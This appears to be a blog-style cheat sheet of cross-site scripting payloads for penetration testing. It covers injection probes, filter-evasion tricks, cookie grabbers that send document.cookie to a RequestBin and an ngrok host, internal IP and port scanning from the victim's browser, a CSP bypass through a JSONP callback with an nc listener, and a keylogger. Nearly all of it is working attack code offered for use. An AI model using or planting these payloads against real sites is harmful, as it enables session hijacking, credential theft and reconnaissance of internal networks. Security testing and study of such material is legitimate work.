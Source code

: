 ```yaml
---
layout: post
title: "xss"
keywords: "xss, iframe, cookie"
---
```


[XSS Payloads](https://github.com/nettitude/xss_payloads)

#### Identification
Check the context (inspect element)
```
<u>xss</u>
<script>alert(1)</script>
xss"><script>alert(1)</script>
</title><script>alert(1)</script>
xss%27;+alert(1);//xss
```

#### Filter Evasion
```
<img src=x onerror="alert('xss')" />
<img src=x onerror=confirm('xss')" />
<object onerror=alert('xss')>
<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,39,72,101,108,108,111,39,41))";>
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('xss')"></xss>
```

#### Redirect Cookie Grabber
[Create new public RequestBin](https://requestbin.com/r)
```
<script>window.location='https://en52dhl6gyckw.x.pipedream.net/?cookie='+document.cookie</script>
<script>document.location='https://en52dhl6gyckw.x.pipedream.net/?cookie='+document.cookie</script>
```

#### Grab Machine IP Address (Reflected)
```
https://target/?payload=%3Cscript%3Ealert(window.location.hostname)%3C/script%3E
```

#### DOM-Based XXS
```
pwn" onmouseover="alert('xss')
```

#### IP and Port Scanning with XSS
```
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">

<script>
    for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
        let ip = '192.168.0.' + i // Creates variable for forming IP
        // Creating an image element, if the resource can load, it logs to the /logs page.
        let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
        document.body.innerHTML += code // This is adding the image element to the webpage
    }
</script> 
```

#### Bypass CSP and steal cookie using iframe

```
# Listener
nc -klnvp 9000
ngrok http 9000

# XSS
<iframe src="http://localhost:1337/list?callback=window.parent.location.href%3D`http://4ea69d0ff8e3.ngrok.io?c=%24%7Bdocument.cookie%7D`;display"></iframe>
```

#### Keylogger
```
<script type="text/javascript">
    let l = ""; // Variable to store key-strokes in
    document.onkeypress = function (e) { // Event to listen for key presses
        l += e.key; // If user types, log it to the l variable
        console.log(l); // update this line to post to your own server
    }
</script> 
```